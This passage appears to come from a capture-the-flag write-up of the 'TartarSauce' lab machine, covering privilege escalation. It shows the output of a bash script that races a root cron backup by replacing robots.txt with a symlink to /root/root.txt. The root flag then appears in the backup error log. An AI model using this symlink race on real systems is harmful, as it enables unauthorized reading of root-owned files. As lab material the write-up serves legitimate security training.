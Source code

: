 The bash exploit should be fired off after the file is created by cron as it takes about `5 seconds` to create the complete archive.
![[Pasted image 20210706154031.png]]
The size should be nearly this much when we need to fire off this bash exploit.

```python
onuma@TartarSauce:/var/tmp$ bash automate.sh
$tarfile is NOT empty
[+] Found File .bd65235b91c39a8f1ac88b24927f3e7d2431e103
[+] Found File Path /var/tmp/.bd65235b91c39a8f1ac88b24927f3e7d2431e103
[+] Extracted .bd65235b91c39a8f1ac88b24927f3e7d2431e103 : -rw-r--r-- 1 onuma onuma 11511673 Jul 6 05:54 .bd65235b91c39a8f1ac88b24927f3e7d2431e103 drwxr-xr-x 3 onuma onuma 4096 Jul 6 05:54 var
[+] Removed /var/tmp/.bd65235b91c39a8f1ac88b24927f3e7d2431e103 : drwxr-xr-x 3 onuma onuma 4096 Jul 6 05:54 var
[+] Removing /var/tmp/var/www/html/robots.txt : -rw-r--r-- 1 onuma onuma 208 Feb 21 2018 /var/tmp/var/www/html/robots.txt
ls: cannot access '/var/tmp/var/www/html/robots.txt': No such file or directory
[+] Removed /var/tmp/var/www/html/robots.txt :
[+] Created /root/root.txt symlink :  total 24 drwxr-xr-x 3 onuma onuma 4096 Jul 6 05:54 . drwxr-xr-x 3 onuma onuma 4096 Jul 6 05:54 .. -rw-r--r-- 1 onuma onuma 10766 Feb 21 2018 index.html lrwxrwxrwx 1 onuma onuma 14 Jul 6 05:54 robots.txt -> /root/root.txt drwxr-xr-x 4 onuma onuma 4096 Feb 21 2018 webservices
var/www/html/
var/www/html/robots.txt
var/www/html/index.html
tar: Exiting with failure status due to previous errors
[+] Created the tar archive : /var/tmp/.bd65235b91c39a8f1ac88b24927f3e7d2431e103
```

## Getting root Flag
```python
onuma@TartarSauce:/var/backups$ tail -n 10 onuma_backup_error.txt 
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
< 
---
> e79abdab8b8a4b64f8579a10b2cd09f9
Only in /var/www/html/webservices/monstra-3.0.4/public/uploads: .empty
```
